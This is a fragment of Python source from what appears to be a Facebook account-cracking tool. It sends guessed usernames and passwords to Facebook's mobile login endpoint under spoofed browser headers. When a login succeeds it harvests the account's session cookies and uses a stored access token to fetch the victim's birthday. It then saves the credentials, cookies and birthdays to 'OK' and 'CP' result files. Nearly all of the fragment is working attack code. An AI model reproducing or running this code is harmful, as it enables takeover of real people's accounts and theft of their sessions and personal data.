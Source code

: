 				_headers = {"Host":"mbasic.facebook.com","cache-control":"max-age=0","upgrade-insecure-requests":"1","origin":"https://mbasic.facebook.com","content-type":"application/x-www-form-urlencoded","user-agent":"Mozilla/5.0 (Linux; Android 12; SAMSUNG SM-G780G) AppleWebKit/537.36 (KHTML, like Gecko) SamsungBrowser/16.0 Chrome/92.0.4515.166 Mobile Safari/537.36","accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://mbasic.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"}
				po = ses.post("https://mbasic.facebook.com/login/device-based/validate-password/?shbl=0", data = dataa, headers=_headers, allow_redirects = False)
				if 'c_user' in ses.cookies.get_dict():
					try:
						kukis=";".join([key+"="+value for key,value in ses.cookies.get_dict().items()])
						romz = open('data/token.txt', 'r').read()
						lahir = requests.get(f"https://graph.facebook.com/{user}?fields=birthday&access_token={romz}").json()['birthday']
						day, month, year = lahir.split('/')
						month = bulan12[month]
						print ('\r %s*———> %s ◊ %s ◊ %s %s %s ◊ %s '%(H,user,pw,day,month,year,kukis))
						#os.popen("play-audio dapet.mp3")
						ok.append("%s ◊ %s ◊ %s %s %s ◊ %s "%(user,pw,day,month,year,kukis))
						open('OK/%s.txt' %(waktu), 'a').write(" *———> %s ◊ %s ◊ %s %s %s ◊ %s \n"%(user,pw,day,month,year,kukis))
						cek_apk(kukis)
						break
					except (KeyError, IOError):
						day = ''
						month = ''
						year = ''
					except:
						pass
					print ('\r %s*———> %s ◊ %s ◊ %s '%(H,user,pw,kukis))
					#os.popen("play-audio dapet.mp3")
					ok.append('%s ◊ %s ◊ %s'%(user,pw,kukis))
					open('OK/%s.txt'%(waktu), 'a').write(' *———> %s ◊ %s ◊ %s\n'%(user,pw,kukis))
					cek_apk(kukis)
					break
				elif 'checkpoint' in ses.cookies.get_dict():
					try:
						romz = open('data/token.txt', 'r').read()
						lahir = requests.get(f"https://graph.facebook.com/{user}?fields=birthday&access_token={romz}").json()['birthday']
						day, month, year = lahir.split('/')
						month = bulan12[month]
						print ('\r %s*———> %s ◊ %s ◊ %s %s %s  '%(K,user,pw,day,month,year))
						#os.popen("play-audio dapet.mp3")
						cp.append("%s ◊ %s ◊ %s %s %s"%(user,pw,day,month,year))
						open('CP/%s.txt' %(waktu), 'a').write(" *———> %s ◊ %s ◊ %s %s %s\n"%(user,pw,day,month,year))
						break
					except (KeyError, IOError):
						day = ''
						month = ''
						year = ''
					except:
						pass
					print ('\r %s*———> %s ◊ %s           '%(K,user,pw))
					#os.popen("play-audio dapet.mp3")
					cp.append('%s ◊ %s'%(user,pw))
					open('CP/%s.txt' %(waktu), 'a').write(" *———> %s ◊ %s\n"%(user,pw))
					break
				else:
					continue